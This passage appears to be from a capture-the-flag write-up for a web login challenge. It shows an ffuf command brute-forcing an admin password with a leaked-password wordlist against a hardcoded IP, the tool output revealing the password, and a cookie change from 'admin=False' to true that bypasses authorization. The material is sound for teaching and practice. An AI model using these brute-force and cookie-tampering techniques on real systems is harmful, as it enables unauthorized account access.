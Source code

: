 This is like the previous login challenge, so let's brute force again!

```bash
┌──PS(Aftab@Sama)-[~\Downloads]
└─$ ffuf -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=admin&password=FUZZ' -w D:\Tools\wordlist\web\SecLists-2024.3\Passwords\Leaked-Databases\rockyou-50.txt -u 'http://3.7.252.130/Login2/index.php' -fr 'Invalid username or password.'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://3.7.252.130/Login2/index.php
 :: Wordlist         : FUZZ: D:\Tools\wordlist\web\SecLists-2024.3\Passwords\Leaked-Databases\rockyou-50.txt
 :: Header           : User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid username or password.
________________________________________________

iloveyou                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 32ms]ors: 0 ::
:: Progress: [9436/9436] :: Job [1/1] :: 275 req/sec :: Duration: [0:00:46] :: Errors: 0 ::
```

We are able to login using these credentials, but when we login, we don't see the flag. We also notice one extra cookie: `admin=False`. So let's change it to true. And we get the flag.

![login_2-flag.png](files/login_2-flag.png#center)
